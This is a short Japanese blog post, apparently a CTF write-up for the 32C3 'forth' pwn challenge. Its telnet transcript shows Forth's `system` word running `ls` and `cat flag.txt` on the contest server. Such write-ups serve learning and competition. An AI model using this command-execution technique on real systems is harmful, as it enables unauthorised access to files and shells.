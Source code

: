 ```yaml
---
layout: post
alias: "/blog/2016/01/02/32c3-ctf-forth/"
date: 2016-01-02T23:19:54+09:00
tags: [ "ctf", "pwn", "writeup", "forth", "xinetd" ]
---
```


# 32C3 CTF forth

## [pwn 150: forth](https://github.com/ctfs/write-ups-2015/tree/master/32c3-ctf-2015/pwn/forth-150)

>   Connect to 136.243.194.49:1024 and get a shell.

本番中に解けた。

forthのinterpreterに繋がっているので、`system`を叩けばよい。
真面目にforthの命令で出力させようとして、`[open-file] error(2): unknown word.`とか言われforthのmanual読みながら頑張っていたりしたので、それなりに苦労した。

``` sh
$ telnet 136.243.194.49 1024
Trying 136.243.194.49...
Connected to 136.243.194.49.
Escape character is '^]'.
yForth? v0.2  Copyright (C) 2012  Luca Padovani
This program comes with ABSOLUTELY NO WARRANTY.
This is free software, and you are welcome to redistribute it
under certain conditions; see LICENSE for details.
s" ls" system
flag.txt  README.gpl  run.sh  yforth
ok
ok
s" cat flag.txt" system
32C3_a8cfc6174adcb39b8d6dc361e888f17b
ok
ok
^]
telnet> quit
Connection closed.
```
